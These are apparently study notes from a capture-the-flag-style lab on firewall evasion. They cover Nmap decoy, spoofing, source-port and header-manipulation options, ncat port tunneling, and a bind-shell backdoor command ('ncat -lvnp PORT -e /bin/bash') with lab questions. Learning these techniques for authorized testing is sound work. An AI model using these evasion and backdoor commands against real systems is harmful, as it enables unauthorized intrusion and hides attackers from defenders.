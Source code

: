 # Nmap-Scanning-Techniques-To-Avoid-Detection By Firewall
Nmap Scanning Techniques To Avoid Detection
When scanning a host behind a firewall, the firewall will usually detect and block port scans. This situation would require you to adapt your network and port scan to evade the firewall. A network scanner like Nmap provides few features to help with such a task. In this room, we group Nmap techniques into three groups:

Evasion via controlling the source MAC/IP/Port
Evasion via fragmentation, MTU, and data length
Evasion through modifying header fields
Nmap allows you to hide or spoof the source as you can use:

Decoy(s)
Proxy
Spoofed MAC Address
Spoofed Source IP Address
Fixed Source Port Number

Decoy
Hide your scan with decoys. Using decoys makes your IP address mix with other “decoy” IP addresses. Consequently, it will be difficult for the firewall and target host to know where the port scan is coming from. Moreover, this can exhaust the blue team investigating each source IP address.
Using the -D option, you can add decoy source IP addresses to confuse the target. Consider the following command, nmap -sS -Pn -D 10.10.10.1,10.10.10.2,ME -F MACHINE_IP. The Wireshark capture is shown in the following figure.
You can also set Nmap to use random source IP addresses instead of explicitly specifying them. By running nmap -sS -Pn -D RND,RND,ME -F MACHINE_IP, Nmap will choose two random source IP addresses to use as decoys. Nmap will use new random IP addresses each time you run this command. In the screenshot below, we see how Nmap picked two random IP addresses in addition to our own, 10.14.17.226.

Proxy
Use an HTTP/SOCKS4 proxy. Relaying the port scan via a proxy helps keep your IP address unknown to the target host. This technique allows you to keep your IP address hidden while the target logs the IP address of the proxy server. You can go this route using the Nmap option --proxies PROXY_URL. For example, nmap -sS -Pn --proxies PROXY_URL -F MACHINE_IP will send all its packets via the proxy server you specify. Note that you can chain proxies using a comma-separated list. nmap -sS -Pn --proxies 10.10.13.37 MACHINE_IP

Spoofed MAC Address
Spoof the source MAC address. Nmap allows you to spoof your MAC address using the option --spoof-mac MAC_ADDRESS. This technique is tricky; spoofing the MAC address works only if your system is on the same network segment as the target host. The target system is going to reply to a spoofed MAC address. If you are not on the same network segment, sharing the same Ethernet, you won’t be able to capture and read the responses. It allows you to exploit any trust relationship based on MAC addresses. Moreover, you can use this technique to hide your scanning activities on the network. For example, you can make your scans appear as if coming from a network printer.

Spoofed IP Address
Spoof the source IP address. Nmap lets you spoof your IP address using -S IP_ADDRESS. Spoofing the IP address is useful if your system is on the same subnetwork as the target host; otherwise, you won’t be able to read the replies sent back. The reason is that the target host will reply to the spoofed IP address, and unless you can capture the responses, you won’t benefit from this technique. Another use for spoofing your IP address is when you control the system that has that particular IP address. Consequently, if you notice that the target started to block the spoofed IP address, you can switch to a different spoofed IP address that belongs to a system that you also control. This scanning technique can help you maintain stealthy existence; moreover, you can use this technique to exploit trust relationships on the network based on IP addresses.

To mislead the opponent, you decided to make your port scans appear as if coming from a local access point that has the IP address 10.10.0.254. What option needs to be added to your Nmap command to spoof your address accordingly?

Fixed Source Port Number
Use a specific source port number. Scanning from one particular source port number can be helpful if you discover that the firewalls allow incoming packets from particular source port numbers, such as port 53 or 80. Without inspecting the packet contents, packets from source TCP port 80 or 443 look like packets from a web server, while packets from UDP port 53 look like responses to DNS queries. You can set your port number using -g or --source-port options.
The following Wireshark screenshot shows a Nmap scan with the fixed source TCP port number 8080. We have used the following Nmap command, nmap -sS -Pn -g 8080 -F MACHINE_IP. You can see in the screenshot how it is that all the TCP connections are sent from the same TCP port number.

This is a quick summary of the Nmap options discussed in this task.
Evasion Approach	Nmap Argument
Hide a scan with decoys	-D DECOY1_IP1,DECOY_IP2,ME
Hide a scan with random decoys	-D RND,RND,ME
Use an HTTP/SOCKS4 proxy to relay connections	--proxies PROXY_URL
Spoof source MAC address	--spoof-mac MAC_ADDRESS
Spoof source IP address	-S IP_ADDRESS
Use a specific source port number	-g PORT_NUM or --source-port PORT_NUM

#2 Evading via modifying header fields
Nmap allows you to control various header fields that might help evade the firewall. You can:

Set IP time-to-live
Send packets with specified IP options
Send packets with a wrong TCP/UDP checksum
Set TTL
Nmap gives you further control over the different fields in the IP header. One of the fields you can control is the Time-to-Live (TTL). Nmap options include --ttl VALUE to set the TTL to a custom value. This option might be useful if you think the default TTL exposes your port scan activities.

In the following screenshot, we can see the packets captured by Wireshark after using a custom TTL as we run our scan, nmap -sS -Pn --ttl 81 -F 10.201.35.151. As with the previous examples, the packets below are captured on the same system running Nmap.

Set IP Options
One of the IP header fields is the IP Options field. Nmap lets you control the value set in the IP Options field using --ip-options HEX_STRING, where the hex string can specify the bytes you want to use to fill in the IP Options field. Each byte is written as \xHH, where HH represents two hexadecimal digits, i.e., one byte.

A shortcut provided by Nmap is using the letters to make your requests:

R to record-route.
T to record-timestamp.
U to record-route and record-timestamp.
L for loose source routing and needs to be followed by a list of IP addresses separated by space.
S for strict source routing and needs to be followed by a list of IP addresses separated by space.
The loose and strict source routing can be helpful if you want to try to make your packets take a particular route to avoid a specific security system.

Use a Wrong Checksum
Another trick you can use is to send your packets with an intentionally wrong checksum. Some systems would drop a packet with a bad checksum, while others won’t. You can use this to your advantage to discover more about the systems in your network. All you need to do is add the option --badsum to your Nmap command.

Using nmap -sS -Pn --badsum -F 10.201.35.151, we scanned our target using intentionally incorrect TCP checksums. The target dropped all our packets and didn’t respond to any of them.

This is a quick summary of the Nmap options discussed in this task.

Evasion Approach	Nmap Argument
Set IP time-to-live field	--ttl VALUE
Send packets with specified IP options	--ip-options OPTIONS
Send packets with a wrong TCP/UDP checksum	--badsum

#EVASION USING PORT HOPPING
Three common firewall evasion techniques are:

Port hopping
Port tunneling
Use of non-standard ports
Port hopping is a technique where an application hops from one port to another till it can establish and maintain a connection. In other words, the application might try different ports till it can successfully establish a connection. Some “legitimate” applications use this technique to evade firewalls. In the following figure, the client kept trying different ports to reach the server till it discovered a destination port not blocked by the firewall.
There is another type of port hopping where the application establishes the connection on one port and starts transmitting some data; after a while, it establishes a new connection on (i.e., hopping to) a different port and resumes sending more data. The purpose is to make it more difficult for the blue team to detect and track all the exchanged traffic.

On the AttackBox, you can use the command ncat -lvnp PORT_NUMBER to listen on a certain TCP port.

-l listens for incoming connections
-v provides verbose details (optional)
-n does not resolve hostnames via DNS (optional)
-p specifies the port number to use
-lvnp PORT_NUMBER listens on TCP port PORT_NUMBER. If the port number is less than 1024, you need to run ncat as root.
For example, run ncat -lvnp 1025 on the AttackBox to listen on TCP port 1025, as shown in the terminal output below.

Evasion Using Port Tunneling
Port tunneling is also known as port forwarding and port mapping. In simple terms, this technique forwards the packets sent to one destination port to another destination port. For instance, packets sent to port 80 on one system are forwarded to port 8080 on another system.

Port Tunneling Using ncat
Consider the case where you have a server behind the firewall that you cannot access from the outside. However, you discovered that the firewall does not block specific port(s). You can use this knowledge to your advantage by tunneling the traffic via a different port.

Consider the following case. We have an SMTP server listening on port 25; however, we cannot connect to the SMTP server because the firewall blocks packets from the Internet sent to destination port 25. We discover that packets sent to destination port 443 are not blocked, so we decide to take advantage of this and send our packets to port 443, and after they pass through the firewall, we forward them to port 25. Let’s say that we can run a command of our choice on one of the systems behind the firewall. We can use that system to forward our packets to the SMTP server using the following command.

ncat -lvnp 443 -c "ncat TARGET_SERVER 25"

The command ncat uses the following options:

-lvnp 443 listens on TCP port 443. Because the port number is less than 1024, you need to run ncat as root in this case.
-c or --sh-exec executes the given command via /bin/sh.
"ncat TARGET_SERVER 25" will connect to the target server at port 25.
As a result, ncat will listen on port 443, but it will forward all packets to port 25 on the target server. Because in this case, the firewall is blocking port 25 and allowing port 443, port tunneling is an efficient way to evade the firewall.

#EVASION USING NON STANDDARD PORTS
ncat -lvnp PORT_NUMBER -e /bin/bash will create a backdoor via the specified port number that lets you interact with the Bash shell.

-e or --exec executes the given command
/bin/bash location of the command we want to execute
On the AttackBox, we can run ncat 10.201.35.151 PORT_NUMBER to connect to the target machine and interact with its shell.

Considering the case that we have a firewall, it is not enough to use ncat to create a backdoor unless we can connect to the listening port number. Moreover, unless we run ncat as a privileged user, root, or using sudo, we cannot use port numbers below 1024.

Answer the questions below
We’re continuing to use the web-form from Task 6 to set up the ncat listener. Knowing that the firewall does not block packets to destination port 8081, use ncat to listen for incoming connections and execute Bash shell. Use the AttackBox to connect to the listening shell. What is the user name associated with which you are logged in?


Evasion Approach	Nmap Argument
Hide a scan with decoys	-D DECOY1_IP1,DECOY_IP2,ME
Use an HTTP/SOCKS4 proxy to relay connections	--proxies PROXY_URL
Spoof source MAC address	--spoof-mac MAC_ADDRESS
Spoof source IP address	-S IP_ADDRESS
Use a specific source port number	-g PORT_NUM or --source-port PORT_NUM
Fragment IP data into 8 bytes	-f
Fragment IP data into 16 bytes	-ff
Fragment packets with given MTU	--mtu VALUE
Specify packet length	--data-length NUM
Set IP time-to-live field	--ttl VALUE
Send packets with specified IP options	--ip-options OPTIONS
Send packets with a wrong TCP/UDP checksum	--badsum

#example commands
nmap -sS -Pn -F <ip address>
-sS =steath scan
-Pn = proceed of no ping reply
-F = scan first well know 100 port
